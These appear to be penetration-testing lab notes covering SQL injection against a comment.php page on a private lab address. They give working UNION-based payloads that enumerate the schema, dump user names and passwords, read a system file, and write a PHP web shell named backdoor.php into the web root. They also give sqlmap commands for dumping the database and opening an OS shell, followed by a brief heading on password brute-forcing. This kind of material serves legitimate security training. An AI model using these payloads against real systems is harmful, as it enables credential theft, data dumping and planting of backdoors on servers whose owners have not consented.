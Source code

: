 SQLI

http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM

information_schema.tables

http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM

information_schema.columns where table_name='users'

http://10.11.1.35/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,

password),6 FROM users

http://10.11.1.35/comment.php?id=-1 union select
1,2,3,4,load_file(‘c:/windows/system32/drivers/etc/hosts’),6

http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"\<?php echo

shell_exec(\$_GET['cmd']);?\>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

sqlmap -u http://10.11.1.35 --crawl=1

sqlmap -u http://10.11.1.35/comment.php?id=738 --dbms=mysql --dump --threads=5

sqlmap contains many advanced features, such as the ability to attempt Web
Application

Firewall (WAF)64 bypasses and execute complex sequences of queries that automate
a

complete takeover of the server. For example, using the os-shell parameter will
attempt

to automatically upload and execute remote command shell on the target.

sqlmap -u http://10.11.1.35/comment.php?id=738 --dbms=mysql --os-shell

Password Attacks

Dictionary Files

![](media/9325cc5da38e946ceee9ffce2248abe6.png)

Key-space Brute Force

Password key-space brute-force is a technique of generating all possible
combinations of characters and using them for password cracking.

![](media/a0c7f84972f5bf08e8f8b138f569614c.png)
